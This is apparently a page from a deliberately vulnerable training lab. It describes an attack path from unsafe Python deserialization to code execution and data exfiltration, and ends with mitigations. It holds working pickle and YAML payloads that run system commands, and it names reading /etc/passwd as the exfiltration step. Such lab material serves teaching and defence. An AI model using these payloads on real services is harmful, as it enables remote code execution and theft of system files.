

# Attack Path 4: Unsafe Deserialization → RCE → Exfil

## Overview
Serialized input deserialize et → gadget chain ile RCE → data exfil.

## Mermaid Diagram


## Adım Adım Senaryo

1. **Endpoint'e base64 encoded pickle/yaml payload gönder**.
2. **Gadget**: `__reduce__` ile `os.system` tetikle.
3. **RCE al** → `cat /etc/passwd` exfil.

## Vulnerable Endpoints
- `/vuln/deserial/pickle` - Pickle deserialization
- `/vuln/deserial/yaml` - YAML unsafe load

## Example Payloads

### Pickle RCE Payload Generator
```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('id',))

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(payload)
```

### YAML RCE Payloads
```yaml
# Python 2 style
!!python/object/apply:os.system ["id"]

# Python 3 style
!!python/object/new:subprocess.check_output [["id"]]

# Alternative
!!python/object/apply:subprocess.check_output
args: [["whoami"]]
```

## Difficulty
**Hard**

## Mitigation
- Never use `pickle.loads()` on untrusted data
- Use `yaml.safe_load()` instead of `yaml.load()`
- Prefer JSON for serialization
